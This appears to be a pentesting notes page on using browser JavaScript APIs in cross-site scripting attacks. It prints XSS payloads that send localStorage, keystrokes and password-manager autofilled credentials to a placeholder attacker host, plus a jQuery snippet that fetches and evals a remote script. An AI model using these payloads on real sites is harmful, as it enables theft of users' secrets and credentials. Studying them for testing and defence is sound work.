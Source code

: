 ```yaml
---
title: JavaScript for hackers
tags:
  - web-app
  - pentesting
  - javascript
---
```


## Useful JavaScript APIs

Notes on some useful JavaScript APIs to interact with the browser maliciously.

### [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window)

Represents the window the entire document (the HTML response from the server)
lives. This gives us access to the URL via the _location_ property and
_localStorage_ which may contain secrets.

Treat Window as global, any properties set here or any methods we have access
can be used in the global context, like `alert()`. `alert()`is one of the
primary methods we can use to prove that a
[[cross-site-scripting|XSS vulnerability]] exists in an application.

#### Exposing storage

Browsers cache important secrets in the `Window` namespace of a user's browsing
session. With XSS, we can exfiltrate this data by targeting the
[`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage)
and
[`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage)
objects in the `Window` namespace:

```javascript
fetch(
  "http://ATTACKER_IP_ADDRESS/exfil?data=" +
    encodeURIComponent(JSON.stringify(localStorage)),
)
```

### [Document](https://developer.mozilla.org/en-US/docs/Web/API/Document)

A powerful API that allows us to interact with the document object model (DOM)
of the web page we're attacking. The DOM provides us with access to all text
inputs, usernames, passwords, cookies, etc. as well as all keypress events.

#### Dumping all input forms

A useful method in the `Document` namespace is
[`getElementsByTagName()`](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName).
For example, let's dump the contents of all forms in the document that are
tagged as `input`:

```javascript
let inputForms = document.getElementsByTagName("input")

for (let inputForm of inputForms) {
  console.log(input.value)
}
```

How do we know what DOM HTML tags are interesting? The entire HTML DOM spec is
actually provided [here](https://html.spec.whatwg.org/multipage/).

#### Logging all keystrokes

Another fun technique to disclose information from a victim using the
`Document` namespace is key logging. Whenever a
[`keydown`](https://developer.mozilla.org/en-US/docs/Web/API/Element/keydown_event)
event occurs, we can execute some JavaScript to retrieve the keys pressed by
the victim:

```javascript
function keyLog(event) {
  console.log(event.key)
}

document.addEventListener("keydown", keyLog)
```

More information about the `addEventListener()` API can be found
[here](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener).

Let's notice something about the above code - it only logs the key presses to
the console, not super useful for an attacker unless I can somehow view the
victim's console! Instead, we need to exfiltrate this data.

Using the
[`Fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch)
API, we can coerce the victim into making a web request to a server we own. The
result of the `fetch` action doesn't matter either because `fetch` just returns
a
[`Promise`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise).
This means we can avoid crashing our script when the `fetch` action fails. Now,
when we log a keystroke from the user, we can append the keystroke to a web
request targeted at a server we host, allowing us to see the victim's
keystrokes:

```javascript
function keyLog(event) {
  fetch("http://<WEB_SERVER_IP_ADDRESS>/k?key=" + event.key)
}

document.addEventListener("keydown", keyLog)
```

#### Dumping credentials from password managers

Password managers are great; you should definitely be using one! But this
particular script attacks password managers into autofilling HTML DOM `input`
objects that look like username and password prompts.

Using this XSS payload, we modify the document, adding input forms for a
username and a password, hide them with an opacity of 0, and exfiltrate the
username and password values after waiting 5 seconds for the password manager
to input data into the new forms:

```javascript
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input")
u.type = "text"
u.style.position = "fixed"
u.style.opacity = "0"
var p = document.createElement("input")
p.type = "password"
p.style.position = "fixed"
p.style.opacity = "0"
body.append(u)
body.append(p)
setTimeout(function () {
  fetch("http://ATTACKER_IP_ADDRESS/k?u=" + u.value + "&p=" + p.value)
}, 5000)
```

### [jQuery](https://en.wikipedia.org/wiki/JQuery)

#### Using jQuery to load remote scripts

Probably not super useful is Cross-Origin protections are an issue, however, if
a server provides clients (browsers) with jQuery as a resource, we can use the
[`getScript()`](https://api.jquery.com/jquery.getscript/) method to load a
script from an arbitrary location, either locally or with a remote URI, and
execute a callback function when the script is loaded successfully. Here's an
example:

```javascript
jQuery.getScript(
  "http://ATTACKER_IP_ADDRESS/dump-password.js",
  function (script, textStatus, jqXHR) {
    eval(script)
  },
)
```

We can use great functions like
[`atob()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/atob),
[`btoa()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/btoa), and
[`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
to bypass any encoding issues upon delivery. It's likely you'll need to convert
the result of the `getScript()` operation to ASCII using `btoa()` to avoid
runtime exceptions. The code you're injecting into probably won't handle the
return value of `getScript()` well - it returns a callback object.

## Related pages

- [[cross-site-scripting|Cross site scripting]]
